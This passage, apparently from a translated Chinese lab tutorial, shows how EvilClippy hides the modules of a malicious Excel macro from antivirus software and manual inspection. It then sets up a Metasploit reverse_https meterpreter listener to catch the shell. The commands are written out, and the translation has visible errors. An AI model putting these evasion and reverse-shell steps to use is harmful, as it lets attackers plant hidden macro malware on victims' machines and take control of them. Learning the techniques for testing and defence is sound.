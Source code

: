接下来，我们需要将此具有恶意宏功能的Excel以xlsm格式保存在EvilClippy及其所有配置文件所在的目录中。现在，我们将使用EvilClippt将模块隐藏在恶意宏中，这些模块可能会触发任何防病毒警报或用户进行任何手动检查。

| 12   | ls.\EvilClippy.exe -g malicious.xlsm |
| ---- | ------------------------------------ |
|      |                                      |

![img](https://i2.wp.com/1.bp.blogspot.com/-XngOEVj70SU/XlaWTeb0VFI/AAAAAAAAi2A/cFt7sejpYtwfnd-PvCbWgn9Q1P6l9YgrACLcBGAsYHQ/s1600/36.png?w=687&ssl=1)

在EvilClippy与恶意Excel合作之后，我们回过头来打开文件以检查模块是否真的在Excel本身中被删除了。

![img](https://i1.wp.com/1.bp.blogspot.com/-ggaPyKYV7YM/XlaWTlDsUrI/AAAAAAAAi2E/Z9EHzlidpFsMDFyUGzIaOXuWSQhJ4C88gCLcBGAsYHQ/s1600/37.png?w=687&ssl=1)

从上面的屏幕截图可以看出，在Excel文件的宏编辑器中的任何位置都找不到恶意宏。这并不意味着宏将从文件中删除。EvilClippy所做的所有工作都是将宏隐藏在Excel文件中，并且在执行宏后便创建了一个侦听器，该侦听器的配置与有效负载相同。我们可以获得一个抄表器会话，如下图所示。

| 123456 | use multi/handlerset payload windows/meterpreter/reverse_httpsset lhost 192.168.152.131set lport 1234runsysinfo |
| ------ | ------------------------------------------------------------ |
|        |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-8bVCRFJTeUw/XlaWUBEdTQI/AAAAAAAAi2I/79dQLltTXb8-Kd1rd2RZYI4ULfNpXSa2ACLcBGAsYHQ/s1600/38.png?w=687&ssl=1)
